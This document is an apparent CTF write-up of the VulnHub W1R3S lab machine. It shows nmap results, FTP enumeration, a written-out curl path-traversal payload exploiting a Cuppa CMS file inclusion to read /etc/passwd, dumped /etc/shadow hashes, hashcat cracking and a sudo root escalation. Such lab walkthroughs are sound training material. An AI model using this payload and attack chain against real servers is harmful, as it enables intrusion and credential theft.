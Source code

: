 ```yaml
---
layout: post
title: W1R3S
date: 2020-07-06
author: OutHackThem
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Recon

After configuring the W1R3S: 1.0.1 and getting its ip through  nmap. I quicky ran a nmap scan 

#### Nmap results

```perl

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.174.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

````

#### Enumeration

**FTP**

I originally started off with the ftp anonymous login and found 3 folders one contained usernames the rest were just trolls e.g one of the files contained the following test 

```bash
New FTP Server For W1R3S.inc
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==

```
I decoded the base64 string and decoded to `It is easy, but not that easy..`

**Web**

Next I went on to enumerate the web apps since that seemed to be the most likely way of getting in the server.

I found out that its running Cuppa CMS. I did a quick google search and found this exploit 
https://www.exploit-db.com/exploits/25971

Though this did not work the file did load up but nothing came up on the page. 

I downloaded the source code of the app from https://github.com/CuppaCMS/CuppaCMS and started to dig in myself to verify if the vuln listed on exploit-db exited. 

from the exploit on exploit-db the problem was in `/alerts/alertConfigField.php (LINE: 22)`

![exploit db image]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/exploitdb.png)

I did a quick grep on the mentioned page but nothing came up


![grep nothing found]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/grep1.png)

Then I begain to analyze the code further and I saw the following

![grep found]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/grep2.png)

and finally using this information I was able to exploit the LFI

```bash

curl -X POST --data "urlConfig=../../../../../../../../../etc/passwd" http://192.168.174.140/administrator/alerts/alertConfigField.php
```
![lfi]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/lfi.png)


#### Exploitation

I was able to read the /etc/shadow file 

```bash
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::

```

used `hashcat` and rockyou.txt to crack the passwords


![hashcat]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/hashcat.png)

and logged in with user `w1r3s`

![ssh]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/ssh.png)


#### Priv Esec

I just simply ran `sudo su` and entered the password computer and voila! got root

![root]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/root.png)
